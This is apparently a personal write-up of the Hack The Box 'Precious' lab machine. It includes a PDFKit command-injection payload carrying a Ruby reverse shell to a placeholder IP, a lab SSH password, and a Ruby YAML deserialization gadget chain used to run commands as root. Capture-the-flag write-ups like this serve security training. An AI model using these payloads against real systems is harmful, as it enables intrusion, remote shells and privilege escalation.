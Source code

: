 ```yaml
---
title: Hack The Box - Precious - Easy Machine
published: true
---
```


# [](#Introduction)Introduction

**Precious** is an easy-level Linux machine on Hack The Box. It has been more than 50 days since its release, it's not the most recent machine but it's an interesting one in my opinion.

My work environment for hacking this machine:
- Ubuntu 20.04 LTS with some hacking tools installed
- An [Exegol](https://github.com/ThePorgs/Exegol) instance

## [](#User-Flag)User flag

### Nmap scan

![](/assets/precious/precious_nmap.png)

I can identify two open ports: the http port (80) and the ssh port (22). If I look at the website hosted on precious.htb, I see the following content:

![](/assets/precious/website.png)

It seems to be a website which converts web pages to PDF format. Moreover, by checking the HTTP response header, I've obtained an idea of the used technologies: **Ruby** as programming language and **Nginx** + **Phusion Passenger** as server infrastructure.

![](/assets/precious/http_headers.png)

So, after directory enumeration with Dirbuster and a scan with Nikto without success, I've looked for PDF conversion of web pages in Ruby, and I've found this article: [Link](https://dev.to/ayushn21/converting-html-to-pdf-using-rails-54e7)

According to this article, there are two options with Ruby on Rails to convert web pages to PDF:
- PDFKit
- WickedPDF 

```
A couple of popular gems to convert HTML to PDF in Rails are PDFKit and WickedPDF. 
They both use a command line utility called wkhtmltopdf under the hood; which uses WebKit to render a PDF from HTML. 
```

After a brief search, I've identified the disponibility of an exploit for command injection in PDFKit (CVE-2022-25765), with this [link](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf 
```
I can inject a reverse shell with the following payload in the ***url*** :
```
http://precious.htb/?url=#{'%20`ruby -rsocket -e'exit if fork;c=TCPSocket.new("YOUR_IP","YOUR_PORT");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'`'} 
```

And... SUCCESS!!
I have the reverse shell and it was pretty easy!

![](/assets/precious/reverse_shell.png)


In the config files we have nothing interesting:

![](/assets/precious/web_folder.png)

Let's take a look to /home directory for user flag:

![](/assets/precious/ssh_creds_henry.png)

The user.txt file is in **/home/henry** but I'm logged as **ruby**, so I don't have the permission to read user.txt file. However, there is an interesting thing in **/home/ruby/.bundle/config** file, it seems to be Henry's ssh credentials.

**henry**:**Q3c1AqGHtoI0aXAYFH**


And yes, actually, it's Henry's ssh credentials! I can read the user flag now:

![](/assets/precious/user_flag.png)

***

## [](#Root-Flag) Root flag

Let's check the privesc vectors in order to get the root flag in **/root/root.txt**.

![](/assets/precious/sudo_l.png)

With **sudo -l** I can affirm that Henry can execute the **update_dependencies.rb** file as super user with the following command **sudo /usr/bin/ruby /opt/update_dependencies.rb**, and after checking this file, I've found an injection point.

***update_dependencies.rb***
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

```

***Injection point***
```ruby
YAML.load(File.read("dependencies.ml"))
```


But what can I write into dependencies.ml for being able to read the root flag? 

After some searchs, I've found that YAML.load() function is vulnerable to code injection due to inescrure deserialization, and that there is a payload to exploit this vulnerability in the famous **PayloadAllTheThings** GitHub repo ([Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)).


For being able to execute commands as root, I've written this piece of yaml code in a file named dependencies.ml:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```
The ***git_set*** parameter is the command that we want to execute, and thanks to this payload we can finally get the root flag!

![](/assets/precious/root_flag.png)